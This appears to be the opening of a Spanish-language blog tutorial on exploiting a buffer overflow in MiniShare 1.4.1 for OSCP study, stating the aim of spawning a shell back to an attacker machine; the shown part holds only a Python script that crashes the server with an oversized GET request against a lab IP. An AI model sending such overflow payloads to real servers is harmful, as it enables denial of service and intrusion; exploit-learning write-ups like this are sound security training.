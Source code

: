 ```yaml
---
layout: single
title: Buffer Overflow - MiniShare 1.4.1
excerpt: "Primer Post, les escribo un tutorial como hacer un buffer overflow exitoso. Muy recomendado para la OSCP"
date: 2020-10-04
classes: wide
header:
  teaser: /assets/images/title-buffer-overflow-minishare.jpg
  teaser_home_page: true
categories:
  - Exploiting
tags:
  - OSCP
  - Exploiting
---
```


![](/assets/images/title-buffer-overflow-minishare.jpg)

Ya hace un buen tiempo que no escribia o hacia un video en ninguna plataforma, pero compartir lo aprendido siempre a sido una caracteristica esensial de la comunidad. Esta de mas decir que sin tanto contenido respecto al Hacking o Reversing hoy no seriamos nada, Asi pues aprovechare para  ire aportando contenido y espero que alguien le sirva.

En este articulo haremos un buffer overflow al software Minishare 1.4.1, desbordaremos el buffer y aprovecharemos esa vulnerabilidad para ejecutar una shell que se conecte a la maquina atacante.

#### Example

Primero para empezar crearemos una script y ver como reacciona la aplicacion al mandarle unas strings 

```python
#!/usr/local/bin
import socket

ip = '192.168.1.34'
port = 80

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
buffer = 'GET ' + 'A'*3000 + 'HTTP/1.1\r\n\r\n'
s.send(buffer)
s.close()
```

